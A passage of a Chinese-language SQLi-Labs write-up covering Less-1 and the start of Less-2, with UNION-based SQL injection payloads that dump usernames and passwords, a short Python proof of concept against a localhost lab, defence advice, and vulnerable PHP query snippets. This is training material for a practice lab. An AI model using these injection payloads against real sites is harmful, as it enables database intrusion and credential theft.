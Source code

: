   发现id、username、password字段

- 枚举users表的列名

  ```
  /sqlilabs/Less-1/
  ?id=-1' union select 1,2,group_concat(id,'-',username,'-','password') from users --+
  ```

  ![](/assets/images/1-10.png)

  得到用户信息

#### 4. PoC 代码（无填充）

```python
import requests

url = "http://127.0.0.1/Less-1/"
payload = "?id=-1' union select 1,2,database()--+"
r = requests.get(url + payload)
print(r.text)
```

#### 5. 防御建议（无填充）

- 使用 **预编译语句 (Prepared Statements)**；
- 使用 **mysqli_real_escape_string()**；
- 对输入进行 **白名单验证**。

### Less-2 

#### 1. 源码分析及漏洞利用

- id为整型

  ```
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
  ```

  有回显信息

  ```
echo 'Your Login name:'. $row['username'];
  ```

  存在报错注入

  ```
print_r(mysql_error());
  ```
